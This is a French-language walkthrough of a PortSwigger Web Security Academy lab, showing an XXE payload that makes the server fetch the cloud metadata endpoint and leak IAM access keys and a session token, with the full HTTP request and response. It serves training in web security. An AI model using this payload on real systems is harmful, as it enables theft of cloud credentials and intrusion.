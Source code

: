 # Lab

https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## Solution

On peut commencer par injecter une payload pour appeler l'URL `http://169.254.169.254/` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
               1
    </storeId>
</stockCheck>
```

On obtient en réponse :

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 42

"Invalid product ID: latest"
```

On peut construire l'URL en ajoutant la réponse : `http://169.254.169.254/latest`

On obtient un autre mot clé intéressant : `meta-data` et on continue jusqu'à arriver à l'URL finale `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`.

```http
POST /product/stock HTTP/2
Host: 0a0b009304ba771d82a3ca810009002a.web-security-academy.net
Cookie: session=MsSTpDonanfV8wuM5h5AdBGaZiQbESsy
Content-Length: 280
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a0b009304ba771d82a3ca810009002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0b009304ba771d82a3ca810009002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
               1
    </storeId>
</stockCheck>
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 566

"Invalid product ID: 
        {
  "Code" : "Success",
  "LastUpdated" : "2023-10-14T18:13:46.816451232Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "nouYWzLQLfwwuDmifzEH",
  "SecretAccessKey" : "9T5q8gVVHalDl8lXffGha7QFeyxZtUfZFtSOc7cJ",
  "Token" : "L905eWMsH7WXYMqn7PnTp0tALg0LzHWDDZhKbTkscTPZmRE7bBWSjEKXRDT6pYFiRQAk2RtYPILBqV3uSUOWyr1NdYpfRgB8F6fZpW8W7W7FiHM1ZgHEaZgf0WKjrVMlFPEjLvlxkeM32cRrNnFg9OxF2Z9DuttdHMTEn4yBvFBVlB6WStY8dRXijYsxwaBZSebyjX0HTo1hAiLM1fCFOlbsHUBdlPvY19THIkbJhrLHdz9JfD6JkoypWSzRCGP7",
  "Expiration" : "2029-10-12T18:13:46.816451232Z"
}
"
```